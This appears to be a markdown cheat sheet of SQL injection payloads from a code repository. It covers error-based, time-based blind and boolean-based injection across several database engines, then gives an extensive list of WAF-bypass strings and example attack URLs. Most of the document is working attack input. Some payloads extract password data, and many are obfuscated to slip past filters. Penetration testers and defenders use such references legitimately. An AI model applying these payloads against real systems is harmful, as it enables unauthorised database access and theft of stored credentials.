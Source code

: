 SQL Injection (SQLi) is a critical web vulnerability where an attacker manipulates SQL queries by injecting malicious input into an application's database query. This can lead to unauthorized data access, data leakage, or even complete database compromise.

## Where to test:

* GET parameters
* POST body
* Headers (e.g., User-Agent, Referer, X-Forwarded-For)
* Cookies
* Hidden fields
* JSON/XML in API requests

  
**Quick Detection Payloads:**
```
' → does error show?
"
' or 1=1--
' and sleep(5)--
' and (select 1 from dual where 1=1)-- (Oracle)
```

# How to Identify SQLi Types:

### Error-Based SQL Injection

Test Payloads:
```
'         
"        
')         
" OR 1=1--  
' ORDER BY 100--  
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(version(), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a)-- 
```

You see SQL error messages like:

* You have an error in your SQL syntax
* Warning: mysql_fetch_assoc()
* Unclosed quotation mark after the character string
* ORA-00933: SQL command not properly ended

IF Blocked:
Try Below Techniques:
```
%27  (URL encoded ')
%22  (URL encoded ")
/**/ (inline comment to bypass filters)
/*!SELECT*/  (MySQL comment bypass)
```
## Time-Based Blind SQL Injection

### MySQL
 ```
' AND SLEEP(5)--  
" AND SLEEP(5)--  
1 AND SLEEP(5)--  
' OR IF(1=1, SLEEP(5), 0)--  
' AND (SELECT * FROM users LIMIT 1) AND SLEEP(5)--  

 ```
### MSSQL (Microsoft SQL Server)
 ```
' WAITFOR DELAY '0:0:5'--  
" WAITFOR DELAY '0:0:5'--  
1; WAITFOR DELAY '0:0:5'--  
'; IF (1=1) WAITFOR DELAY '0:0:5'--  
'; SELECT CASE WHEN (1=1) THEN WAITFOR DELAY '0:0:5' ELSE NULL END--  

 ```
### Oracle
```
 ' AND 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR dbms_lock.sleep(5) FROM dual--  
' AND (SELECT CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE null END FROM dual)--  
```
### PostgreSQL
```
'; SELECT pg_sleep(5)--  
1 AND pg_sleep(5)--  
' OR pg_sleep(5)--  
' OR (SELECT CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END)--  
' OR 1=(SELECT 1 FROM pg_sleep(5))--
```
### SQLite
```
' AND randomblob(1000000000)--  
' OR (SELECT load_extension('non_existing'))--  # causes crash or delay
' AND (SELECT COUNT(*) FROM sqlite_master, sqlite_master, sqlite_master)--  
```

# Boolean-Based Blind SQL Injection

Test Payloads:
```
' AND 1=1--          → should behave normally (TRUE)
' AND 1=2--          → should behave differently (FALSE)

" AND 1=1--         
" AND 1=2--         

' OR '1'='1'--       → TRUE
' OR '1'='2'--       → FALSE

1 AND 1=1           
1 AND 1=2           
```

 If blocked:
**Try encoding:**
``
%27 AND 1=1--  
%27 AND 1=2--  
``
**Use case-insensitive logic:**
``
' oR 1=1--  
``
**Try comment tricks:**
``
' AND/**/1=1--  
``



Bypassing WAF: Blind SQL Injection Using logical requests AND/OR • The following requests allow one to conduct a successful attack for many WAFs

``` 
/?id=1+OR+0x50=0x50 (HEX)
/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74 (ASCII-Based-Boolean-Check)

```
# WAF Bypassing Strings

```
` /!%55NiOn/ /!%53eLEct/
%55nion(%53elect 1,2,3)– -
+union+distinct+select+
+union+distinctROW+select+
///!12345UNION SELECT///
concat(0x223e,@@version)
concat(0x273e27,version(),0x3c212d2d)
concat(0x223e3c62723e,version(),0x3c696d67207372633d22)
concat(0x223e,@@version,0x3c696d67207372633d22)
concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)
concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)
concat(‘’,@@version,’’)
///!50000UNION SELECT///
//UNION///!50000SELECT///
/!50000UniON SeLeCt/
union /!50000%53elect/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/!%55NiOn/ /!%53eLEct/
/!u%6eion/ /!se%6cect/
+un//ion+se//lect
uni%0bon+se%0blect
%2f%2funion%2f*%2fselect
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/–/union/–/select/–/
union (/!/*/ SeleCT */ 1,2,3)
/!union/+/!select/
union+/!select/
//union//select//
//uNIon//sEleCt//
///*!union*////!select///
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?+un//ion+se//lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f%2funion%2f%2fselect%2f%2f
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
/!UnIoN*/SeLecT+`
```
## Bypass with Comments
SQL comments allow us to bypass a lot of filtering and WAFs.

`
Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--
`
## Case Changing
Some WAFs filter only lowercase SQL keyword.
Regex Filter: /union\sselect/g
`
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--
`

References:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://owasp.org/www-community/attacks/SQL_Injection
https://portswigger.net/support/sql-injection-bypassing-common-filters
https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/BasicObfuscation.wiki
https://johnermac.github.io/notes/ewptx/sqlievasion/
